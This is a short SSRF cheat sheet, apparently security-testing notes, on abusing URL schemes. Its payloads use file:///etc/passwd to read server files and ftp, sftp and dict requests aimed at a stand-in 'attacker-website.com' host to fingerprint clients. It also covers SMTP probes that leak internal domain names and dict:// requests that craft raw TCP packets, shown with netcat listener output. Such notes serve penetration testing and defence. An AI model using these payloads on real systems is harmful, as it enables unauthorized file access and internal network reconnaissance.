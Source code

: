 # Abuse of URL schemes

## Accessing local files

You can use the `file` scheme to fetch the content of a file on the server:

```http
file://path/to/file
file:///etc/passwd
file://\/\/etc/passwd
```

## Retrieving protocol versions

You can enumerate versions of the different protocols by sending a request to your server.

```http
ftp://attacker-website.com
sftp://attacker-website.com:1337
dict://attacker-website.com:1337
```

```bash
$ nc -v -l 1337
Connection from [12.234.12.234] port 1337 [tcp/*] accepted (family 2, sport 31337)
SSH-2.0-libssh2_0.1.2
```

## Leaking internal domains

When connected to SMTP, internal domains might leak from the first line. To do this, connect to `http://127.0.0.1:25` or some internal IP address `http://10.0.0.6:25` with SMTP available and from the first line get the internal domain name: `220 subdomain.internal-host.com ESMTP Sendmail`

## Crafting TCP packets

You can use the `ldap`, `git`, or `dict` URL schemes to create cleartext connections to TCP-based services.

```bash
$ curl -v dict://127.0.0.1:1337/HELLO
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 1337 (#0)
```

```bash
$ nc -l -v 1337
CLIENT libcurl 7.64.1
HELLO
QUIT
```
